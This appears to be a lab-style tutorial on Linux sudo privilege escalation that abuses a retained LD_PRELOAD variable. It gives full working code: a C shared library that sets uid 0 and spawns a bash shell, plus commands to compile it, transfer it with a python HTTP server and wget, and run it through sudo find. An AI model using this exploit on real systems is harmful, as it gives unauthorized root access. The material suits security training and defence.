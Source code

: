# Background on Sudo

Sudo allows access to restricted files by temporarily elevating the privileges of the user to the `root` user. Sudo was introduced as a safer way to elevate privileges by mitigating the risks associated with unrestricted access to the root account by executing only the command as the root user.

For users to use the `sudo` command, they must be in the sudoers file located at /etc/sudoers. To edit the sudoers file, you should use the following command to open the file with 'visudo' which parses the file for syntax errors.
```
sudo visudo
```

To add or remove accounts from the sudoers file, the user has to be in the sudo group which can be arranged by using the command:

```
sudo usermod -aG sudo [username]
```

You can check your user's privileges by running the command: `sudo -l`

```
Matching Defaults entries for kayem on kali:
    env_reset, env_keep+=LD_PRELOAD

User kayem may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

`env_reset` is an option that defaults environment variables before running the command as root, unless the environment variable is added to the list of preserved variables with the `env_keep` option. In the example above, we can see that the `LD_PRELOAD` environment variable is retained when resetting the environment.

To restrict `LD_PRELOAD` from loading in arbitrary shared libraries, dynamic linkers ignore the environment variable if the real user ID (ruid) is different to the effective user ID (uid). The real user ID represents the user who executed the sudo command and the effective user ID represents the user ID under which the process is running. For instance, when running processes with sudo, the ruid will be 1000 but the uid will be 0 (root) so the environment variable will be ignored. 

# Practical

Using the `sudo -l` command, I discover that the user `kayem` has access to three programs: find, less, and nano. We can abuse the `LD_PRELOAD` environment variable by uploading the following C program to spawn a root shell.

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
The program can then be compiled into an object file with the following gcc command:
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
Once compiled, we can host a python3 HTTP server to transfer the object file from our machine to the target machine. We can start an HTTP server with the command:
```
sudo python3 -m http.server 8000
```
And download the file on our target machine.
```
wget http://[IP address]:8000/shell.so
```

Finally, we run the following command to spawn our root shell.

```
sudo LD_PRELOAD=/home/kayem/shell.so find
```

This command runs the "find" program with sudo rights so thus the whole command is run with sudo rights and then the LD_PRELOAD environmental variable is set to the specified path.
